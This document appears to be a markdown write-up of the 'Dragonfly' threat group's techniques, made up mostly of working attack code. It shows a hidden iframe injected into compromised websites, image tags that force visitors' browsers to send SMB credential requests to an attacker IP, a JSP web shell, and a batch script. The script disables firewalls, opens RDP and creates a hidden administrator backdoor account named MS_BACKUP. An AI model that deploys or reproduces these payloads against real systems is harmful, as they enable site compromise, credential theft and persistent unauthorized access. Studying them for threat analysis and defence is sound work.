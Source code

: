 # Dragonfly

## Features

1. Redirect its website to the managed Lightout website by injecting HTML code.

```html
<script type="text/javascript">
var WWCPou=document.createElement("iframe");
WWCPou.height=1;
WWCPou.width=1;
WWCPou.style.visibility="hidden" ;
WWCPou.src="http://domain/wp-includes/pomo/dtsrc.php";
document.getElementsByTagName("head")[0].appendChild(WWCPou);
</script>
```

2. Use puddle attack, and modify the webpage code of the controlled website to use SMB to request the file icon from the controlled host, where the header.php file is modified to load the image.

```html
<img src="file://IP/main_logo.png" style="height: 1px; width: 1px;" />
```

The modelizer.js file will also be modified to load images. This JavaScript file is used to detect the legitimate JavaScript libraries in all aspects of the browser.

```JavaScript
var i = document.createElement("img");
i.src = "file://IP/ame_icon.png";
i.width = 3;
i.height= 2;
```

3. In the post-penetration phase, a script will be used to create a local administrator account disguised as a legitimate backup account. The script name issymantec_help.jsp，store inC:\Program Files (x86)\Symantec\Symantec Endpoint Protection Manager\tomcat\webapps\ROOT\.

```jsp
<% Runtime.getRuntime().exec("cmd /C \"" + System.getProperty("user.dir") + "\\..\\webapps\\ROOT\\<enu.cmd>\""); %>
```

The enu.cmd script is used to create an administrator account, disable the host firewall, open ports and global access for RDP, and then try to add the new user to the administrator group to obtain permissions.

```bash
netsh firewall set opmode disable  //Turn off firewall
netsh advfirewall set allprofiles state off  //Turn off the current network firewall
reg add "HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List" /v 3389:TCP /t REG_SZ /d "3389:TCP:*:Enabled:Remote Desktop" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\DomainProfile\GloballyOpenPorts\List" /v 3389:TCP /t REG_SZ /d "3389:TCP:*:Enabled:Remote Desktop" /f
//Open Remote Desktop Port 3389
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
//Start Terminal Services
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Licensing Core" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f
//Simultaneous login of multiple users
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AllowMultipleTSSessions /t REG_DWORD /d 1 /f
//3389 Remote Desktop multi-user login at the same time
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 100 /f
//Limit the maximum number of simultaneous login instances
net user MS_BACKUP password /add  //Create user
net localgroup Administrators /add MS_BACKUP
net localgroup Administradores /add MS_BACKUP
net localgroup Amministratori /add MS_BACKUP
net localgroup Administratoren /add MS_BACKUP
net localgroup Administrateurs /add MS_BACKUP
net localgroup "Remote Desktop Users" /add MS_BACKUP
//Add user to administrator group
net user MS_BACKUP /expires:never  //Specify that users never expire
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v MS_BACKUP /t REG_DWORD /d 0 /f
//Set users as hidden users
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system /v dontdisplaylastusername /t REG_DWORD /d 1 /f
//Do not display the last user name when logging in
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
//Disable local account token filter
sc config termservice start = auto  //Set Terminal Services configuration
net start termservice  //Enable Terminal Services
```
